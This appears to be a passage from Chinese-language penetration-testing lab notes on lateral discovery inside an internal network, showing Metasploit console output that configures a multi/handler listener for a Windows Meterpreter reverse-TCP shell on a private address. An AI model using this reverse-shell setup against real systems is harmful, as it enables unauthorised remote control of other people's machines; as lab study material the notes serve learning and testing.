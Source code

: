 ![image-20220815002731903](./st1.assets/image-20220815002731903.png)



## 横向探测

### 法一：MSF (*这里也写了ProxyChains)

> 可跳转至前面的 内网渗透，内容近似。



先拿一个msf shell

```bash
msf6 > use exploit/multi/handler 
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > show options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.220.137  yes       The listen address (an interface may be specified)
   LPORT     9999             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


```